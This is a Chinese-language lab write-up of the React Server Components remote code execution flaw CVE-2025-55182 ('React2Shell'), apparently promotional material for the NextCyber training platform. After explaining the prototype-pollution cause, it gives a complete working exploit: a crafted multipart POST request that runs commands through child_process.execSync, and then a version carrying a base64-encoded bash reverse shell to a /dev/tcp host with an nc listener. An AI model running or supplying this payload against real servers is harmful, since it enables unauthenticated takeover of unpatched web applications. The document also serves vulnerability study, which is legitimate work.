



# React未授权远程代码执行漏洞（CVE-2025-55182）

## 0x01 简介

React2Shell 是 React Server Components（RSC）相关的一个未授权远程代码执行（RCE）漏洞，攻击者可通过构造恶意请求触发服务端反序列化/解码链路的问题，从而在服务器进程权限下执行任意代码。该漏洞在 2025-12-03由 React 官方披露并紧急建议升级。

* react-server-dom-webpack
* react-server-dom-parcel
* react-server-dom-turbopack

受影响版本包括 19.0/19.1.0/19.1.1/19.2.0；已修复版本包括 19.0.1 / 19.1.2 / 19.2.1。

生态影响：RSC 被多个框架/打包链路采用（如 Next.js 等），因此常见“应用没显式写 Server Function 也可能中招”。

已在野利用：CISA 已将该漏洞加入 KEV（已知被利用漏洞）目录（公告日期 2025-12-05），说明存在明确的在野利用证据。

## 0x02 原理介绍

1、什么是 RSC 和 Flight 协议？

正常情况下，基于 React 19 的框架会把部分组件放在服务器上运行，渲染后通过一种特定格式把结果发给浏览器，让浏览器“复原”为组件树。这个过程中，服务器端需要把对象编码/序列化为可传输的 payload，浏览器端再解码/反序列化。

2、哪里出了问题？

React 的 Flight 协议在反序列化时，使用了一种不安全的对象还原方式。 它允许客户端发送的“数据”中包含特殊的标记（比如 \$\$typeof、\_owner 等），这些标记可以控制还原出来的对象的原型（prototype）。 攻击者利用这个特性，制造了一个原型污染（prototype pollution），把 JavaScript 内置对象的原型改掉，让它指向一个“恶意的函数构造器”。

3、怎么从污染变成代码执行？

一旦原型被污染，服务器在后续处理中只要调用某些常见的函数（比如 JSON.parse、模板字符串求值、Function 构造器等），就会不小心执行攻击者提前埋好的代码。 最经典的 gadget chain 是： → 污染 Object.prototype → 让某个属性变成 Function 对象 → 服务器无意中调用它 → 执行 eval(攻击者命令) 或 new Function(攻击者代码)

4、为什么这么危险？

- 不需要登录（pre-auth）
- 只发一个精心构造的 POST 请求（通常伪装成正常的 RSC payload）
- 默认配置下就能打（很多应用没做额外校验）
- 一旦成功，通常直接拿到 Web 服务的权限（www-data 或 node 用户）

## 0x03 环境搭建

首先我们打开NextCyber网络安全实战演练平台，在“课程中心”页面，选择“新的”标签筛选出新上课程，选择“React”这个课程，免费解锁复现：


在课程的左边点击“跳转到问题”自动下拉到底部，点击右下角的“启动靶机实例”，开启靶机进行漏洞复现：


等待约1分钟左右，顶部显示出来靶机ip地址，靶机启动成功：


## 0x04 漏洞复现

靶机启动后，访问http://your-ip:3000即可查看首页：



打开burpsuite抓包，将拦截到的流量发送到repeater模块，修改并发送如下payload：

```
POST / HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 567
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"
{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B0\"}","_response":{"_prefix":"var o=Buffer.from(process.mainModule.require('child_process').execSync('id')).toString('base64');var e=new Error();e.digest='NEXT_REDIRECT;push;http://x/'+o+';307;';throw e;","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"
"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

发送后，即可在Response的Headers部分看到RCE的回显（需要base64解码）



## 0x05 反弹shell

前面我们读取到了目标的id，接下来我们通过漏洞利用进行反弹shell

```
bash -i >& /dev/tcp/10.132.0.15/1234 0>&1

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC4xNS8xMjM0IDA+JjE=

echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC4xNS8xMjM0IDA+JjE=|base64 -d | bash
```

如上命令，我们使用bash做反弹，10.132.0.15是本地kali的ip地址，对bash反弹命令做base64编码，最后拼接成最终payload：

```
POST / HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0
Next-Action: x
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Length: 567
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="0"
{"then":"$1:__proto__:then","status":"resolved_model","reason":-1,"value":"{\"then\":\"$B0\"}","_response":{"_prefix":"var o=Buffer.from(process.mainModule.require('child_process').execSync('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMzIuMC4xNS8xMjM0IDA+JjE=|base64 -d | bash')).toString('base64');var e=new Error();e.digest='NEXT_REDIRECT;push;http://x/'+o+';307;';throw e;","_formData":{"get":"$1:constructor:constructor"}}}
------WebKitFormBoundaryx8jO2oVc6SWP3Sad
Content-Disposition: form-data; name="1"
"$@0"
------WebKitFormBoundaryx8jO2oVc6SWP3Sad--
```

本地监听端口1234:

```
nc -lvnp 1234
```

在bp上修改payload，发送，可以看到成功拿到了反弹shell：



## 0x06 靶机体验

如果你也想体验这个漏洞的复现过程，欢迎登陆我们的 NextCyber 网络安全实战演练平台，一键启动靶机，无需复杂环境搭建！随时随地进行靶机练习！

🔗 联系我们免费领取VIP体验资格！

📱客服微信：**nextcyber007**

**平台地址：https://www.nextcyber.cn/**


